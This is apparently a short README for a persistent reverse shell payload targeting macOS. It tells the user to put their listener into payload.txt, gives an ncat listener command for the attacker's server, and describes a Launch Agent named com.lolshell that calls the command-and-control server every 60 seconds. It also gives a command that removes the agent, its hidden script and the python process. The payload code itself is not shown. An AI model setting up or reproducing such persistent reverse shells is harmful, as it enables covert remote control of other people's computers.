 # Persistent reverse shell for OSX
This reverse shell is persistent. You will need to modify payload.txt with your listener.

## Start listener
From your server that you want the compromised machine to be issued commands
```
$ ncat -nvlp 1337
```

## Remove persistent reverse shell
This will remove the reverse shell and it's associated Launch Agent (this was used to call the C&C server every 60 seconds).
```
$ launchctl remove com.lolshell && rm ~/Library/LaunchAgents/com.lolshell.plist /tmp/.lolshell.sh; pkill -f python\ \-c
```
